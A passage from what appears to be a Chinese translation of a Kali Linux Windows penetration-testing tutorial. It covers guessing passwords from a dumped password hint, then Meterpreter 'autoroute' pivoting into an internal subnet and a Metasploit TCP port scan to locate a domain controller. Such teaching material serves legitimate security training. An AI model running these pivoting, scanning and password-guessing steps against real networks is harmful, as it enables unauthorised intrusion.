 注意`hashdump`命令还找到并下载了`BO Weaver`的密码提示。提示是`funny`。这可能会让你猜密码更容易。有些人的密码提示几乎就是他们的密码，比如*Raiders Star Qback 1970*。一点点研究就能告诉你四分卫是乔治·布兰达，他当时 43 岁，那是雷德队在 NFL 的第一个赛季。他的球衣号码是 16。你的密码列表需要包括*GeorgeBlanda16*，*Blanda1970*和其他相关的东西：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/9b53d897-6728-46bf-8cd5-d0ef0bd8a3e2.png)

输入以下内容：

```
run autoroute -s 192.168.202.0/24  
```

然后运行以下命令打印路由表：

```
run autoroute -p  
```

我们看到我们有一条通往后端网络的路由：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/faee21d5-13de-4f22-b275-1137be0bdf16.png)

# 在 Metasploit 内部运行端口扫描器

现在你有了一条路线，是时候进行侦察了。为了减少噪音，我们将在 Metasploit 中使用一个简单的端口扫描程序：

1.  通过输入以下命令退出 Meterpreter：

```
background  
```

这使得会话保持运行并处于后台状态。

1.  设置扫描仪如下：

```
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.202.0/24
set PORTS 139,445,389  
```

我们已将端口`389`设置为查找域控制器。

1.  按以下方式设置活动线程数：

```
set THREADS 20    
```

1.  按以下方式运行扫描仪：

```
run    
```

扫描程序运行，我们看到了一个 Windows 域控制器。这是我们的新目标：

![](https://github.com/OpenDocCN/freelearn-kali-zh/raw/master/docs/kali18-win-pentest/img/77fa5d16-fc3c-481e-98ec-8cce27a5ad62.png)
